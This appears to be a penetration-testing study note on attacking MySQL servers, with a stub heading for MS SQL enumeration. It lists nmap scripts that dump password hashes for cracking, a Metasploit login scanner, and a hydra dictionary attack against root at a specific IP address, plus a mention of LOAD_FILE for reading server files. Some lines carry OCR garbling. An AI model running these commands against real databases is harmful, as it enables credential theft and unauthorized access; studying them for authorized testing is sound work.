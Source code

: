 ``` bash
nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
# Dumps the password hashes from an MySQL server in a format suitable for cracking by tools such as John the Ripper. Appropriate DB privileges (root) are required.

nmap -p 3306 <ip> --script mysql-query --script-args='query="<query>"[,username=<username>,password=<password>]'
# Runs a query against a MySQL database and returns the results as a table.
```

#### Note: 
>   When using nmap script `mysql-info` and seeing `InteractiveClient` in the result, The default mode of MySQL Shell **provides interactive execution of database operations that you type at the command prompt**.




- Where does the MySQL files is stored 

>I connect_timeout: 10 
  **| datadir: /var/lib/mysql/**
  | date_format: %Y-wm-%d |
  | datetime_format: %Y-%m-%d SH:%i:%s

## Dictionary Attack to MySQL Database:

### 1. Using Metasploit 
``` bash
msf > use auxiliary/scanner/mysql/mysql_login 
msf auxiliary(mysql_login) > show options ... show and set options ...
msf auxiliary(mysql_login) > set RHOSTS ip-range 
msf auxiliary(mysql_login) > exploit
```

### Using hydra:
```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.99.154.3 my sql 
```

> LOAD_FILE(file_name) reads the file and returns the file contents as a string.

## Microsoft SQL

MS SQL Server is **a relational database management system (RDBMS) developed by Microsoft**. This product is built for the basic function of storing retrieving data as required by other applications. It can be run either on the same computer or on another across a network.
![[Pasted image 20230405203856.png]]


## Using Nmap for MS-SQL enumeration
